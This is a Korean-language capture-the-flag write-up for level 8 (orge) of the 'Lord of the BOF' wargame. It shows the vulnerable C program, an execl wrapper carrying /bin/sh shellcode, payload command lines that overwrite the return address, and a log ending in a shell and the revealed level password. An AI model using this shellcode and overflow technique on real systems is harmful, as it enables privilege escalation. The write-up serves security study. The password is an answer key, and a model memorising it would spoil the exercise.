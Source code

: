 ```yaml
---
title: "BOF - Lv.8 orge (풀이 봄)"
excerpt: "Lv.8 orge"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
  - c언어 execl() 함수
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```

## 2. Vulnerability
코드 정리를 하면 인자는 1개밖에 못줌 **(argv[2] 사용불가)**. 인자의 길이는 최대 48, 환경변수 사용 불가, 인자랑 버퍼 값 모두 0으로 초기화시킴.  
execl 함수를 사용하여 풀 수 있음. 
```c
#include <usistd.h>

int execl(const char *path, const char *argv[0],~~argv[n],(char *)0)

path에 지정한 경로명의 파일을 실행하며 argv[0]~argv[n]을 인자로 전달함. 관례적으로 argv[0]에는 실행파일명을 지정함.  
execl함수의 마지막 인자로는 인자의 끝을 의미하는 NULL 포인터( (char*)0 )을 지정해야 함.  
path에 지정하는 경로명은 절대 경로, 상대 경로 모두 사용 가능 함.
출처 : [https://bbolmin.tistory.com/35](https://bbolmin.tistory.com/35)
// ex) 
// execl("/bin/ls, "ls', "-al", 0);  
```
**컴파일하여 파일을 생성할 때 원본 파일명과 길이를 맞춰줘야 실제 파일로 공격했을 때 스택의 주소가 바뀌지 않음.** 

## 3. Solution
풀이: [https://ddubucker.tistory.com/entry/BOF%EC%9B%90%EC%A0%95%EB%8C%80-LEVEL8-orge-troll?category=57181](https://ddubucker.tistory.com/entry/BOF%EC%9B%90%EC%A0%95%EB%8C%80-LEVEL8-orge-troll?category=57181)  

우선 execl을 실행해주는 실행파일을 생성해야 함. 
```c
// execl.c
#include <stdio.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
        char shellcode[]="\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
        char filename[100];     // execl 함수의 path 부분
        strcpy(filename,argv[1]);       // ./troll 이 들어갈꺼임.
        execl(filename,shellcode,argv[2],0);    // ./troll에 argv[0]으로 shellcode, argv[1]으로 execl실행파일의 argv[2] 을 줄꺼임.
        return 0;
}
```
그 다음 troll.c 코드를 복사하여 마지막에 argv[0]의 주소를 출력해주는 코드를 넣고 컴파일하여 실행파일을 만들어줌. **(실제파일명과 길이 같게 해줘야 함)**  
테스트 파일에 해주면 argv[0]의 주소가 출력되고 (혹시 모르니 2,3번정도 더 해주면 좋음) argv[0]주소로 바꿔서 다시 해주면 쉘을 딸 수 있음.
```
[orge@localhost orge]$ ./execl ./testt `python -c 'print "A"*44+"BBB\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB▒
argv[0] : 0xbffffc2c
Segmentation fault (core dumped)
-----------------------------------------------------------------
                        주소 변경 후
-----------------------------------------------------------------
[orge@localhost orge]$ ./execl ./testt `python -c 'print "A"*44+"\x2c\xfc\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,▒▒▒
bash$
```
실제파일에도 해주면 됨.
```
[orge@localhost orge]$ ./execl ./troll `python -c 'print "A"*44+"\x2c\xfc\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,▒▒▒
bash$ my-pass
euid = 508
aspirin
```
my-pass : aspirin